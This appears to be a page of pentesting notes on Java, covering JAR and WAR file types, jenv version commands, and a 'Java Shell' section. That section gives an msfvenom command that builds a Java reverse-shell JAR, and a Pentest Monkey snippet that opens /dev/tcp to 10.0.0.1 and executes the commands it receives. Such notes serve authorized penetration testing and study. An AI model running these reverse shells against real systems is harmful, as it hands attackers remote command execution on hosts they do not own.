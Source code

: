 # Java


File types:
```bash
# Java Archive format
$file.jar	
# Web Application Resource
# Or Web application ARchive
# Contains: JAR, Javaserver pages, Java Servblets, Java classes, XML files.
$file.war    
unzip $file.war    
```

#### Virtual Environment

[Java Virtual Environment Jenv](https://medium.com/@bhagavathidhass/virtual-environments-for-python-ruby-and-java-87743478ae38):
```bash
jenv versions # shows all the jenv added versions  
jenv global oracle64-1.6.0.39 # Configure global version  
jenv local oracle64-1.6.0.39 # Configure local version (per directory)  
jenv shell oracle64-1.6.0.39 # Configure shell instance version
```

## Java Shell

```bash
msfvenom --platform java -p java/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f jar -o rev.jar
```

Pentest Monkey
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## References

[Java Virtual Environment Jenv](https://medium.com/@bhagavathidhass/virtual-environments-for-python-ruby-and-java-87743478ae38)